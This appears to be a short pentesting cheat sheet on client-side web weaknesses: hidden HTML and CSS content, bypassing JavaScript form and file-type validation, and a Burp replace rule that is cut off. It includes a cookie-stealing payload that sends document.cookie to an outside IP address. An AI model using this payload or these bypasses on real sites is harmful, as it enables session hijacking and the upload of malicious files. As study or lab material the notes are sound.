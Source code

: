 # Client Side


## HTML Comment
- ```--!>```

## CSS Hidden Element
- ```display: none;```
- ```display: hidden;```

## Bypass JS Control
- ```function```
- Stealing Cookie
```Javascript
document.write('<img src="http://192.168.8.105/?' + document.cookie + '" />');
```
- Bypass validation with return true
  - Go to page source code
  - Find validation script and copy it 
    - search for ```onsubmit``` 
  - Enable pasting
    - Browser => Console => allow pasting
  - remove ```if clause``` part and paste
```Javascript
function webform_onsubmit () {
return true;
}

```
- Bypass uploading file type restriction
  - Find function of validate file types
    - In source code (javascript), search for error text of uploading wrong file 
  - Add malicious file type to whitelist of this function

## Tools
- Burp 
  - Proxy > Options > Match and Replace > Add
  - Type: Response Body
  - Match: ```<!--```
  - Replace: 
